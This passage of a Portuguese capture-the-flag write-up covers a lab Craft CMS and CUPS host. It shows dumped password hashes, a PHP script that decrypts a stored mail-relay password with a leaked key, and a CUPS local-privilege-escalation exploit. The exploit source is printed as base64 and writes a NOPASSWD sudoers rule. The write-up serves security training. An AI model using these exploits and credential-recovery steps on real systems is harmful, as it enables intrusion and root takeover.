| searchindexqueue_fields    |
| sections                   |
| sections_entrytypes        |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| sso_identities             |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| webauthn                   |
| widgets                    |
+----------------------------+
72 rows in set (0.001 sec)

MariaDB [craft]> SELECT * FROM users;
SELECT * FROM users;
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | affiliatedSiteId | active | pending | locked | suspended | admin | username | fullName       | firstName | lastName | email                                | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |             NULL |      1 |       0 |      0 |         0 |     1 | admin    | NULL           | NULL      | NULL     | admin@htb-international.htb          | $2y$13$ZdTZwteklJx2.z6sEY35pehuiOsB28y3sGJTNozu.xTpYRe4MCGg2 | 2026-07-16 10:10:55 | NULL               | NULL                    |              NULL | NULL                 | NULL        |            0 | NULL             | NULL                       | NULL            |                     0 | 2026-07-15 21:21:19    | 2026-07-15 21:21:19 | 2026-07-16 10:10:55 |
|  2 |    NULL |             NULL |      1 |       0 |      0 |         0 |     0 | jenny    | Jenny Crawford | Jenny     | Crawford | jenny.crawford@htb-international.htb | $2y$13$abHJk/QQLb8BE4L2pkBblebjEeWCMyFAdwguN2d7rDHZnnHJWvG7q | 2026-10-02 10:06:06 | NULL               | NULL                    |              NULL | NULL                 | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2026-07-16 10:13:34    | 2026-07-16 10:13:34 | 2026-10-02 10:06:06 |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
2 rows in set (0.001 sec)
```

Enumerei as tabelas e achei a htbairways_settings com um valor bem suspeito

```bash

MariaDB [craft]> SELECT * FROM htbairways_settings;
SELECT * FROM userpermissions_usergroups;SELECT * FROM htbairways_settings;
+----+--------------+---------+---------------------+---------------------+--------------------------------------+
| id | permissionId | groupId | dateCreated         | dateUpdated         | uid                                  |
+----+--------------+---------+---------------------+---------------------+--------------------------------------+
|  1 |            1 |       1 | 2026-07-16 10:13:33 | 2026-07-16 10:13:33 | d47eabee-9218-4e0b-a1cd-d2126344ad30 |
+----+--------------+---------+---------------------+---------------------+--------------------------------------+
1 row in set (0.001 sec)

+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
| id | name              | value                                                                                                                                                                        | dateCreated         | dateUpdated         |
+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
|  1 | mailRelayPassword | u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w= | 2026-07-16 03:19:52 | 2026-07-16 03:19:52 |
|  2 | mailRelayHost     | mail.htbairways.htb                                                                                                                                                          | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
|  3 | mailRelayPort     | 587                                                                                                                                                                          | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
|  4 | mailRelayUser     | aporter                                                                                                                                                                      | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
4 rows in set (0.000 sec)
```

O campo mailRelayPassword estava criptografado com a chave do Craft. Procurei no código onde ele era usado 

```bash
grep -RniE "mailRelayPassword|mailRelayHost|mailRelayUser" /var/www/portal
```

Achei o MilesController.php que fazia exatamente isso, basicamente ele pega as configurações de mail relay que estavam salvas na tabela htbairways_settings (principalmente o mailRelayPassword que vinha criptografado) e usava a chave de segurança do Craft (CRAFT_SECURITY_KEY) pra desencriptar.

```bash
Craft::$app->getSecurity()->decryptByKey(
    base64_decode($kv['mailRelayPassword']),
    $securityKey
);
```

O script que montei faz a mesma coisa que o controller, só que de forma isolada. Ele carrega o autoload do Yii/Craft, cria uma instância da classe de segurança, usa a chave que estava no .env e aplica o decryptByKey no blob que veio do banco (depois de fazer o base64_decode). No final o var_dump só mostra o resultado em claro, que no caso foi a senha do aporter.

```bash
www-data@portal:~/portal$ cd /var/www/portal
cd /var/www/portal
www-data@portal:~/portal$ cat > /tmp/dec.php <<'PHP'
<?php

require '/var/www/portal/vendor/autoload.php';

$security = new \yii\base\Security();

$key = 'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr';

$blob = 'u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=';

$result = $security->decryptByKey(
    base64_decode($blob),
    $key
);

var_dump($result);
PHPcat > /tmp/dec.php <<'PHP'
> <?php
>
> require '/var/www/portal/vendor/autoload.php';
>
> $security = new \yii\base\Security();
>
> $key = 'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr';
>
<ahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=';
>
> $result = $security->decryptByKey(
>     base64_decode($blob),
>     $key
> );
>
> var_dump($result);
>
PHP
www-data@portal:~/portal$ php /tmp/dec.php
php /tmp/dec.php
string(16) "Skyp0rt_Relay!26"

```

Com a senha em mãos loguei como aporter

```bash
www-data@portal:/home$ su aporter
su aporter
Password: Skyp0rt_Relay!26

aporter@portal:/home$
```

e aqui já pegamos a flag user finalmente 

```bash
aporter@portal:~$ cat user.txt
cat user.txt
<FLAG>
aporter@portal:~$
```

Rodando linpeas de novo como aporter, o socket do CUPS me pareceu um possível vetor em destaque

```bash
/var/run/cups/cups.sock
  └─(Read Write Execute (Weak Permissions: 777) )
  └─(Owned by root)
  └─High risk: root-owned and writable Unix socket
```

verifiquei a versão dele 

```bash
aporter@portal:~$ curl -s http://localhost:631 | grep -i title
curl -s http://localhost:631 | grep -i title
	<TITLE>Not Found - CUPS v2.4.16</TITLE>
```

e assim como fiz no começo com o craft cms consultei por um exploit 





O CVE-2026-34990 permite criar uma fila local maliciosa e escrever em /etc/sudoers.d/ via race condition, baixei ele e subi na máquina usando uma técnica bem comum pra file upload de texto puro, onde convertemos o conteúdo pra base64 e depois decodamos facilitando o transporte

```bash
~ 〉 git clone https://github.com/Noorkhalel/CVE-2026-34990-CUPS-LPE-PoC
Cloning into 'CVE-2026-34990-CUPS-LPE-PoC'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 30 (delta 6), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (30/30), 15.46 KiB | 5.15 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

```bash
~ 〉 cd CVE-2026-34990-CUPS-LPE-PoC
~/CVE-2026-34990-CUPS-LPE-PoC 〉 ls
exploit.py  README.md
~/CVE-2026-34990-CUPS-LPE-PoC 〉 cat exploit.py | base64
IyEvdXNyL2Jpbi9lbnYgcHl0aG9uMwoiIiIKQ1ZFLTIwMjYtMzQ5OTAgLSBDVVBTIExvY2FsIFBy
aXZpbGVnZSBFc2NhbGF0aW9uIFBvQwoKR2VuZXJpYyBwcm9vZi1vZi1jb25jZXB0IGZvciByZXBy
b2R1Y2luZyBDVkUtMjAyNi0zNDk5MAppbiBhdXRob3JpemVkIGFuZCBjb250cm9sbGVkIGVudmly
b25tZW50cy4KClBvQyBhZGFwdGF0aW9uIGFuZCB0ZXN0aW5nOiBOb29yIEtoYWxpbAoKVnVsbmVy
YWJpbGl0eSBjcmVkaXQ6CkFzaW0gVmlsYWRpIE9nbHUgTWFuaXphZGEgKEBtYW5pemFkYSkKClRo
aXMgcHJvamVjdCBpcyBub3QgYWZmaWxpYXRlZCB3aXRoIGFueSBDVEYsIHRyYWluaW5nIHBsYXRm
b3JtLApvciB0aGlyZC1wYXJ0eSBsYWIgZW52aXJvbm1lbnQuCgpGb3IgZWR1Y2F0aW9uYWwgYW5k
IGF1dGhvcml6ZWQgc2VjdXJpdHkgdGVzdGluZyBvbmx5LgoiIiIKaW1wb3J0IGdldHBhc3MsIGd6
aXAsIG9zLCBzb2NrZXQsIHN0cnVjdCwgc3VicHJvY2VzcywgdGhyZWFkaW5nLCB0aW1lCgpVU0VS
ID0gZ2V0cGFzcy5nZXR1c2VyKCkKSE9TVCwgUE9SVCA9ICIxMjcuMC4wLjEiLCA2MzEKQ0FQX0hP
U1QsIENBUF9QT1JUID0gIjEyNy4wLjAuMSIsIDkxODkKVEFSR0VUID0gZiIvZXRjL3N1ZG9lcnMu
ZC97VVNFUn0tcHduIgpQQVlMT0FEID0gZiJ7VVNFUn0gQUxMPShBTEwpIE5PUEFTU1dEOiBBTExc
biIuZW5jb2RlKCkKClRfT1AsIFRfUFJOLCBUX0VORCA9IDB4MDEsIDB4MDQsIDB4MDMKVF9CT09M
LCBUX05BTUUsIFRfS0VZLCBUX1VSSSA9IDB4MjIsIDB4NDIsIDB4NDQsIDB4NDUKVF9DSEFSU0VU
LCBUX0xBTkcsIFRfTUlNRSA9IDB4NDcsIDB4NDgsIDB4NDkKCk9QX1BSSU5UID0gMHgwMDAyCk9Q
X1JFU1VNRSA9IDB4MDAxMQpPUF9BREQgPSAweDQwMDMKT1BfQUNDRVBUID0gMHg0MDA4Ck9QX0NS
RUFURV9MT0NBTCA9IDB4NDAyOAoKZGVmIGF0dHIodGFnLCBuYW1lLCB2YWx1ZSk6CiAgICBpZiBp
c2luc3RhbmNlKHZhbHVlLCBzdHIpOgogICAgICAgIHZhbHVlID0gdmFsdWUuZW5jb2RlKCkKICAg
IG4gPSBuYW1lLmVuY29kZSgpCiAgICByZXR1cm4gYnl0ZXMoW3RhZ10pICsgc3RydWN0LnBhY2so
Ij5IIiwgbGVuKG4pKSArIG4gKyBzdHJ1Y3QucGFjaygiPkgiLCBsZW4odmFsdWUpKSArIHZhbHVl
CgpkZWYgYm9vbGVhbihuYW1lLCB2YWx1ZSk6CiAgICByZXR1cm4gYXR0cihUX0JPT0wsIG5hbWUs
IGIiXHgwMSIgaWYgdmFsdWUgZWxzZSBiIlx4MDAiKQoKZGVmIGNvbW1vbigpOgogICAgcmV0dXJu
IFsKICAgICAgICBhdHRyKFRfQ0hBUlNFVCwgImF0dHJpYnV0ZXMtY2hhcnNldCIsICJ1dGYtOCIp
LAogICAgICAgIGF0dHIoVF9MQU5HLCAiYXR0cmlidXRlcy1uYXR1cmFsLWxhbmd1YWdlIiwgImVu
IiksCiAgICAgICAgYXR0cihUX05BTUUsICJyZXF1ZXN0aW5nLXVzZXItbmFtZSIsIFVTRVIpLAog
ICAgXQoKZGVmIGlwcChvcCwgcmlkLCBvcGF0dHJzLCBwcm5hdHRycz1Ob25lLCBkb2N1bWVudD1i
IiIpOgogICAgYiA9IGJ5dGVhcnJheShzdHJ1Y3QucGFjaygiPkJCSEkiLCAyLCAwLCBvcCwgcmlk
KSkKICAgIGIuYXBwZW5kKFRfT1ApCiAgICBmb3IgeCBpbiBvcGF0dHJzOgogICAgICAgIGIgKz0g
eAogICAgaWYgcHJuYXR0cnM6CiAgICAgICAgYi5hcHBlbmQoVF9QUk4pCiAgICAgICAgZm9yIHgg
aW4gcHJuYXR0cnM6CiAgICAgICAgICAgIGIgKz0geAogICAgYi5hcHBlbmQoVF9FTkQpCiAgICBi
ICs9IGRvY3VtZW50CiAgICByZXR1cm4gYnl0ZXMoYikKCmRlZiBwb3N0KHBhdGgsIGJvZHksIHRv
a2VuPU5vbmUpOgogICAgaCA9IFsKICAgICAgICBmIlBPU1Qge3BhdGh9IEhUVFAvMS4xIiwKICAg
ICAgICBmIkhvc3Q6IHtIT1NUfTp7UE9SVH0iLAogICAgICAgICJDb250ZW50LVR5cGU6IGFwcGxp
Y2F0aW9uL2lwcCIsCiAgICAgICAgZiJDb250ZW50LUxlbmd0aDoge2xlbihib2R5KX0iLAogICAg
ICAgICJDb25uZWN0aW9uOiBjbG9zZSIsCiAgICBdCiAgICBpZiB0b2tlbjoKICAgICAgICBoLmFw
cGVuZChmIkF1dGhvcml6YXRpb246IExvY2FsIHt0b2tlbn0iKQogICAgcmVxID0gKCJcclxuIi5q
b2luKGgpICsgIlxyXG5cclxuIikuZW5jb2RlKCkgKyBib2R5CiAgICB3aXRoIHNvY2tldC5jcmVh
dGVfY29ubmVjdGlvbigoSE9TVCwgUE9SVCksIHRpbWVvdXQ9MikgYXMgczoKICAgICAgICBzLnNl
bmRhbGwocmVxKQogICAgICAgIG91dCA9IGJ5dGVhcnJheSgpCiAgICAgICAgd2hpbGUgVHJ1ZToK
ICAgICAgICAgICAgdHJ5OgogICAgICAgICAgICAgICAgYyA9IHMucmVjdig2NTUzNSkKICAgICAg
ICAgICAgZXhjZXB0IHNvY2tldC50aW1lb3V0OgogICAgICAgICAgICAgICAgYnJlYWsKICAgICAg
ICAgICAgaWYgbm90IGM6CiAgICAgICAgICAgICAgICBicmVhawogICAgICAgICAgICBvdXQgKz0g
YwogICAgcmV0dXJuIGJ5dGVzKG91dCkKCmRlZiBwcmludGVyX3VyaShuYW1lKToKICAgIHJldHVy
biBmImlwcDovL2xvY2FsaG9zdDo2MzEvcHJpbnRlcnMve25hbWV9IgoKZGVmIGFkbWluKHRva2Vu
LCBvcCwgcmlkLCBuYW1lLCBhdHRycz1Ob25lKToKICAgIGJvZHkgPSBpcHAoCiAgICAgICAgb3As
IHJpZCwKICAgICAgICBjb21tb24oKSArIFthdHRyKFRfVVJJLCAicHJpbnRlci11cmkiLCBwcmlu
dGVyX3VyaShuYW1lKSldLAogICAgICAgIGF0dHJzCiAgICApCiAgICByZXR1cm4gcG9zdCgiL2Fk
bWluLyIsIGJvZHksIHRva2VuKQoKY2xhc3MgVG9rZW5TZXJ2ZXIodGhyZWFkaW5nLlRocmVhZCk6
CiAgICBkZWYgX19pbml0X18oc2VsZik6CiAgICAgICAgc3VwZXIoKS5fX2luaXRfXyhkYWVtb249
VHJ1ZSkKICAgICAgICBzZWxmLnRva2VuID0gTm9uZQoKICAgIGRlZiBydW4oc2VsZik6CiAgICAg
ICAgd2l0aCBzb2NrZXQuc29ja2V0KCkgYXMgc3J2OgogICAgICAgICAgICBzcnYuc2V0c29ja29w
dChzb2NrZXQuU09MX1NPQ0tFVCwgc29ja2V0LlNPX1JFVVNFQUREUiwgMSkKICAgICAgICAgICAg
c3J2LmJpbmQoKENBUF9IT1NULCBDQVBfUE9SVCkpCiAgICAgICAgICAgIHNydi5saXN0ZW4oNSkK
ICAgICAgICAgICAgc3J2LnNldHRpbWVvdXQoMC4yNSkKICAgICAgICAgICAgZGVhZGxpbmUgPSB0
aW1lLnRpbWUoKSArIDEwCgogICAgICAgICAgICB3aGlsZSB0aW1lLnRpbWUoKSA8IGRlYWRsaW5l
IGFuZCBub3Qgc2VsZi50b2tlbjoKICAgICAgICAgICAgICAgIHRyeToKICAgICAgICAgICAgICAg
ICAgICBjLCBfID0gc3J2LmFjY2VwdCgpCiAgICAgICAgICAgICAgICBleGNlcHQgc29ja2V0LnRp
bWVvdXQ6CiAgICAgICAgICAgICAgICAgICAgY29udGludWUKCiAgICAgICAgICAgICAgICB3aXRo
IGM6CiAgICAgICAgICAgICAgICAgICAgYy5zZXR0aW1lb3V0KDIpCiAgICAgICAgICAgICAgICAg
ICAgZGF0YSA9IGJ5dGVhcnJheSgpCiAgICAgICAgICAgICAgICAgICAgdHJ5OgogICAgICAgICAg
ICAgICAgICAgICAgICB3aGlsZSBiIlxyXG5cclxuIiBub3QgaW4gZGF0YToKICAgICAgICAgICAg
ICAgICAgICAgICAgICAgIHggPSBjLnJlY3YoNDA5NikKICAgICAgICAgICAgICAgICAgICAgICAg
ICAgIGlmIG5vdCB4OgogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGJyZWFrCiAgICAg
ICAgICAgICAgICAgICAgICAgICAgICBkYXRhICs9IHgKICAgICAgICAgICAgICAgICAgICBleGNl
cHQgc29ja2V0LnRpbWVvdXQ6CiAgICAgICAgICAgICAgICAgICAgICAgIHBhc3MKCiAgICAgICAg
ICAgICAgICAgICAgdGV4dCA9IGRhdGEuZGVjb2RlKCJsYXRpbjEiLCAicmVwbGFjZSIpCiAgICAg
ICAgICAgICAgICAgICAgdG9rZW4gPSBOb25lCiAgICAgICAgICAgICAgICAgICAgZm9yIGxpbmUg
aW4gdGV4dC5zcGxpdGxpbmVzKCk6CiAgICAgICAgICAgICAgICAgICAgICAgIGlmIGxpbmUubG93
ZXIoKS5zdGFydHN3aXRoKCJhdXRob3JpemF0aW9uOiBsb2NhbCAiKToKICAgICAgICAgICAgICAg
ICAgICAgICAgICAgIHRva2VuID0gbGluZS5zcGxpdChOb25lLCAyKVsyXQogICAgICAgICAgICAg
ICAgICAgICAgICAgICAgYnJlYWsKCiAgICAgICAgICAgICAgICAgICAgaWYgdG9rZW46CiAgICAg
ICAgICAgICAgICAgICAgICAgIHNlbGYudG9rZW4gPSB0b2tlbgogICAgICAgICAgICAgICAgICAg
ICAgICBpcHBfb2sgPSAoCiAgICAgICAgICAgICAgICAgICAgICAgICAgICBiIlx4MDJceDAwXHgw
MFx4MDBceDAwXHgwMFx4MDBceDAxXHgwMSIKICAgICAgICAgICAgICAgICAgICAgICAgICAgIGIi
XHg0N1x4MDBceDEyYXR0cmlidXRlcy1jaGFyc2V0XHgwMFx4MDV1dGYtOCIKICAgICAgICAgICAg
ICAgICAgICAgICAgICAgIGIiXHg0OFx4MDBceDFiYXR0cmlidXRlcy1uYXR1cmFsLWxhbmd1YWdl
XHgwMFx4MDJlblx4MDMiCiAgICAgICAgICAgICAgICAgICAgICAgICkKICAgICAgICAgICAgICAg
ICAgICAgICAgcmVwbHkgPSAoCiAgICAgICAgICAgICAgICAgICAgICAgICAgICBiIkhUVFAvMS4x
IDIwMCBPS1xyXG4iCiAgICAgICAgICAgICAgICAgICAgICAgICAgICBiIkNvbnRlbnQtVHlwZTog
YXBwbGljYXRpb24vaXBwXHJcbiIKICAgICAgICAgICAgICAgICAgICAgICAgICAgICsgZiJDb250
ZW50LUxlbmd0aDoge2xlbihpcHBfb2spfVxyXG4iLmVuY29kZSgpCiAgICAgICAgICAgICAgICAg
ICAgICAgICAgICArIGIiQ29ubmVjdGlvbjogY2xvc2VcclxuXHJcbiIKICAgICAgICAgICAgICAg
ICAgICAgICAgICAgICsgaXBwX29rCiAgICAgICAgICAgICAgICAgICAgICAgICkKICAgICAgICAg
ICAgICAgICAgICBlbHNlOgogICAgICAgICAgICAgICAgICAgICAgICByZXBseSA9ICgKICAgICAg
ICAgICAgICAgICAgICAgICAgICAgIGIiSFRUUC8xLjEgNDAxIFVuYXV0aG9yaXplZFxyXG4iCiAg
ICAgICAgICAgICAgICAgICAgICAgICAgICBiJ1dXVy1BdXRoZW50aWNhdGU6IExvY2FsIHRyYz0i
eSJcclxuJwogICAgICAgICAgICAgICAgICAgICAgICAgICAgYiJDb250ZW50LUxlbmd0aDogMFxy
XG4iCiAgICAgICAgICAgICAgICAgICAgICAgICAgICBiIkNvbm5lY3Rpb246IGNsb3NlXHJcblxy
XG4iCiAgICAgICAgICAgICAgICAgICAgICAgICkKICAgICAgICAgICAgICAgICAgICB0cnk6CiAg
ICAgICAgICAgICAgICAgICAgICAgIGMuc2VuZGFsbChyZXBseSkKICAgICAgICAgICAgICAgICAg
ICBleGNlcHQgT1NFcnJvcjoKICAgICAgICAgICAgICAgICAgICAgICAgcGFzcwoKZGVmIHN0ZWFs
X3Rva2VuKCk6CiAgICBzcnYgPSBUb2tlblNlcnZlcigpCiAgICBzcnYuc3RhcnQoKQoKICAgIGVu
diA9IG9zLmVudmlyb24uY29weSgpCiAgICBlbnZbIkNVUFNfU0VSVkVSIl0gPSAibG9jYWxob3N0
OjYzMSIKCiAgICBzdWJwcm9jZXNzLnJ1bihbCiAgICAgICAgIi91c3IvYmluL2lwcHRvb2wiLCAi
LXEiLAogICAgICAgICItZCIsICJuYW1lPXRva2VubGVhayIsCiAgICAgICAgIi1kIiwgZiJkZXZp
Y2U9aXBwOi8ve0NBUF9IT1NUfTp7Q0FQX1BPUlR9L2lwcC9wcmludCIsCiAgICAgICAgImlwcDov
L2xvY2FsaG9zdDo2MzEvIiwKICAgICAgICAiL3Vzci9zaGFyZS9jdXBzL2lwcHRvb2wvY3Vwcy1j
cmVhdGUtbG9jYWwtcHJpbnRlci50ZXN0IiwKICAgIF0sIGVudj1lbnYsIHN0ZG91dD1zdWJwcm9j
ZXNzLkRFVk5VTEwsIHN0ZGVycj1zdWJwcm9jZXNzLkRFVk5VTEwpCgogICAgc3J2LmpvaW4oNCkK
ICAgIGlmIG5vdCBzcnYudG9rZW46CiAgICAgICAgcmFpc2UgU3lzdGVtRXhpdCgiWy1dIGZhaWxl
ZCB0byBjYXB0dXJlIExvY2FsIHRva2VuIikKICAgIHJldHVybiBzcnYudG9rZW4KCmRlZiBjcmVh
dGVfZmlsZV9xdWV1ZShuYW1lKToKICAgIGJvZHkgPSBpcHAoCiAgICAgICAgT1BfQ1JFQVRFX0xP
Q0FMLCAyLAogICAgICAgIGNvbW1vbigpICsgW2F0dHIoVF9VUkksICJwcmludGVyLXVyaSIsICJp
cHA6Ly9sb2NhbGhvc3Q6NjMxLyIpXSwKICAgICAgICBbCiAgICAgICAgICAgIGF0dHIoVF9OQU1F
LCAicHJpbnRlci1uYW1lIiwgbmFtZSksCiAgICAgICAgICAgIGF0dHIoVF9VUkksICJkZXZpY2Ut
dXJpIiwgZiJmaWxlOi8ve1RBUkdFVH0iKSwKICAgICAgICBdCiAgICApCgogICAgcmVxID0gKAog
ICAgICAgICJQT1NUIC8gSFRUUC8xLjFcclxuIgogICAgICAgIGYiSG9zdDoge0hPU1R9OntQT1JU
fVxyXG4iCiAgICAgICAgIkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24vaXBwXHJcbiIKICAgICAg
ICBmIkNvbnRlbnQtTGVuZ3RoOiB7bGVuKGJvZHkpfVxyXG4iCiAgICAgICAgIkNvbm5lY3Rpb246
IGNsb3NlXHJcblxyXG4iCiAgICApLmVuY29kZSgpICsgYm9keQoKICAgIHMgPSBzb2NrZXQuY3Jl
YXRlX2Nvbm5lY3Rpb24oKEhPU1QsIFBPUlQpLCB0aW1lb3V0PTIpCiAgICBzLnNlbmRhbGwocmVx
KQogICAgcmV0dXJuIHMKCmRlZiBzZW5kX3BheWxvYWQobmFtZSwgcmlkKToKICAgIGJvZHkgPSBp
cHAoCiAgICAgICAgT1BfUFJJTlQsIHJpZCwKICAgICAgICBjb21tb24oKSArIFsKICAgICAgICAg
ICAgYXR0cihUX1VSSSwgInByaW50ZXItdXJpIiwgcHJpbnRlcl91cmkobmFtZSkpLAogICAgICAg
ICAgICBhdHRyKFRfTUlNRSwgImRvY3VtZW50LWZvcm1hdCIsICJhcHBsaWNhdGlvbi92bmQuY3Vw
cy1yYXciKSwKICAgICAgICAgICAgYXR0cihUX0tFWSwgImNvbXByZXNzaW9uIiwgImd6aXAiKSwK
ICAgICAgICAgICAgYXR0cihUX05BTUUsICJqb2ItbmFtZSIsICJwcm9iZSIpLAogICAgICAgIF0s
CiAgICAgICAgZG9jdW1lbnQ9Z3ppcC5jb21wcmVzcyhQQVlMT0FEKQogICAgKQogICAgcG9zdChm
Ii9wcmludGVycy97bmFtZX0iLCBib2R5KQoKZGVmIHJvb3RfY2hlY2soKToKICAgIHAgPSBzdWJw
cm9jZXNzLnJ1bihbInN1ZG8iLCAiLW4iLCAiaWQiXSwgdGV4dD1UcnVlLCBjYXB0dXJlX291dHB1
dD1UcnVlKQogICAgaWYgcC5yZXR1cm5jb2RlID09IDA6CiAgICAgICAgcHJpbnQoIlsrXSBST09U
IHZpYSBzdWRvZXJzIikKICAgICAgICBwcmludChwLnN0ZG91dC5zdHJpcCgpKQogICAgICAgIHJl
dHVybiBUcnVlCiAgICByZXR1cm4gRmFsc2UKCmRlZiBtYWluKCk6CiAgICBwcmludChmIlsqXSB1
c2VyOiB7VVNFUn0iKQogICAgcHJpbnQoZiJbKl0gdGFyZ2V0OiB7VEFSR0VUfSIpCgogICAgdG9r
ZW4gPSBzdGVhbF90b2tlbigpCiAgICBwcmludChmIlsrXSBMb2NhbCB0b2tlbjoge3Rva2VufSIp
CgogICAgZm9yIGF0dGVtcHQgaW4gcmFuZ2UoMSwgMTMpOgogICAgICAgIG5hbWUgPSBmInB3bnth
dHRlbXB0fXt0aW1lLnRpbWVfbnMoKSAlIDEwMDAwMH0iCiAgICAgICAgcHJpbnQoZiJbKl0gYXR0
ZW1wdCB7YXR0ZW1wdH06IHtuYW1lfSIpCgogICAgICAgIHRyeToKICAgICAgICAgICAgaG9sZCA9
IGNyZWF0ZV9maWxlX3F1ZXVlKG5hbWUpCiAgICAgICAgZXhjZXB0IEV4Y2VwdGlvbiBhcyBlOgog
ICAgICAgICAgICBwcmludChmIlstXSBxdWV1ZSBjcmVhdGlvbiBmYWlsZWQ6IHtlfSIpCiAgICAg
ICAgICAgIGNvbnRpbnVlCgogICAgICAgIHRyeToKICAgICAgICAgICAgZm9yIGkgaW4gcmFuZ2Uo
ODApOgogICAgICAgICAgICAgICAgcmlkID0gMTAwMCArIGkgKiA0CiAgICAgICAgICAgICAgICB0
cnk6CiAgICAgICAgICAgICAgICAgICAgYWRtaW4odG9rZW4sIE9QX0FERCwgcmlkLCBuYW1lLCBb
